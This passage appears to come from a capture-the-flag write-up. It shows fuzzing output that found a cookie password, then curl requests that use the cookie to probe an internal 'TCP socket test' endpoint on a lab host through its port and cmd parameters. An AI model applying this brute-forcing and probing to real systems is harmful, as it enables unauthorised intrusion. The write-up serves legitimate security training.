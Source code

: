     000097:  C=200     21 L       48 W          540 Ch        "secret"

    Total time: 25.02369
    Processed Requests: 10000
    Filtered Requests: 9999
    Requests/sec.: 399.6212



#### Site

Once I set the cookie `password=secret`, I get a site with a form
offering a TCP socket test:

![](/img/1540819678302.png)

On entering values, it submits a GET to
`/socket?port=[TCP port]&cmd=[Line to send...]`.

I'll use `curl` to poke at this a bit. First, I'll play with the port
parameter. If I put in port 1, I get back an Internal Server Error 500.
But if I put in 21, I get back errors from an FTP server:



    root@kali# curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=1&cmd=0xdf'
    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
    <title>500 Internal Server Error</title>
    <h1>Internal Server Error</h1>
    <p>The server encountered an internal error and was unable to complete your request.  Either the server is overloaded or there is an error in the application.</p>                                  

    root@kali# curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=21&cmd=0xdf'
    <!DOCTYPE.md>
    .md>
    <head>
    <title>Internal Dev</title>
            <meta charset="UTF-8">
            <meta name="viewport" content="initial-scale=1, maximum-scale=1, user-scalable=no, width=device-width">                                                                                     
    </head>
    <body>
    <div>

    <p>Status of cache engine: Online</p>
    <h4>TCP socket test</h4>
    <form action="/socket">
    <input type="text" name="port" placeholder="TCP port"></input>
    <input type="text" name="cmd" placeholder="Line to send..."></input>
    <input type="submit" value="Submit"</input>
    </form>

